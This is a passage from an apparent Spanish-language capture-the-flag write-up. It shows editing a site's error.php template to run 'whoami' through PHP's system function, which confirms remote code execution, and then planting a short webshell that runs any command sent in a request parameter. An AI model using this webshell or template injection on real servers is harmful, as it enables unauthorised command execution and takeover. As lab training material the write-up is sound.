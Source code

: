Volvimos de nuevo para editar el archivo `error.php`, para que esta vez a través de la función `system` de PHP intente ejecutar el comando `whoami`.

<figure><img src="../../.gitbook/assets/imagen (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al tratar de acceder de nuevo a una página inexistente para que nos cargue el `error.php`, verificamos que se ha logrado ejecutar el comando `whoami` sin problemas, por lo tanto, parece ser que hemos logrado obtener una potencial vía para lograr un **RCE** y ejeuctar comandos  arbitrarios en el servidor.

<figure><img src="../../.gitbook/assets/imagen (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Editamos nuevamente la plantilla de `error.php` para que nos incluya la siguiente función que lo que realizará es una **webshell** para lograr ejecutar comandos a través del parámetro `gzzcoo` para así no tener que ir editando cada vez la plantilla.

```php
if (isset($_REQUEST['gzzcoo'])) {
  system($_REQUEST['gzzcoo']);
  die();
}
```
